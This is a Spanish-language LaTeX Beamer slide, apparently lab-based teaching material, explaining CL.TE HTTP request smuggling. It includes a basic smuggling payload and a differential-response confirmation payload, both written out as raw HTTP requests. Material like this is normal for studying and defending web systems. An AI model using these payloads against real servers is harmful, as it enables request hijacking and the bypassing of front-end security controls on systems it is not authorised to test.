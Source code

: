 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{CL.TE Básico y Confirmación Diferencial (Labs 119-121, 135)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item El conflicto CL.TE
  \item Front-end usa Content-Length $\rightarrow$ ve 1 petición completa y la reenvía íntegra.
  \item Back-end usa Transfer-Encoding:chunked $\rightarrow$ el chunk '0' indica fin del cuerpo.
  \item El sufijo que el front-end incluyó como 'cuerpo' queda en buffer del back-end
  \item como inicio de la siguiente petición $\rightarrow$ se 'cuela' una petición oculta.
  \item Payload básico CL.TE (Lab 135)
  \item \cmd{POST / HTTP/1.1}
  \item \cmd{Host: target.com}
  \item \cmd{Content-Length: 13}
  \item \cmd{Transfer-Encoding: chunked}
  \item \cmd{0}
  \item \cmd{SMUGGLED}
  \item $\rightarrow$ Front-end: CL=13 $\rightarrow$ pasa todo. Back-end: chunk 0=fin $\rightarrow$ 'SMUGGLED' en buffer.
  \item Confirmación por respuestas diferenciales (Labs 119-121)
  \item Enviar petición de ataque + petición de confirmación en conexión distinta.
  \item Si el back-end recibe 'GPOST /' en vez de 'POST /' $\rightarrow$ confirmado.
  \item \cmd{Content-Length: 49 / Transfer-Encoding: chunked}
  \item \cmd{e}
  \item \cmd{q=smuggling\&x=}
  \item \cmd{0}
  \item \cmd{GET /404noexiste HTTP/1.1}
  \item \cmd{X-Ignore: X}
  \item $\rightarrow$ La petición de confirmación recibe 404 $\rightarrow$ el prefijo smuggleado funcionó.
  \item Usar conexiones TCP distintas para ataque y confirmación.
  \end{itemize}
\end{frame}
\end{document}

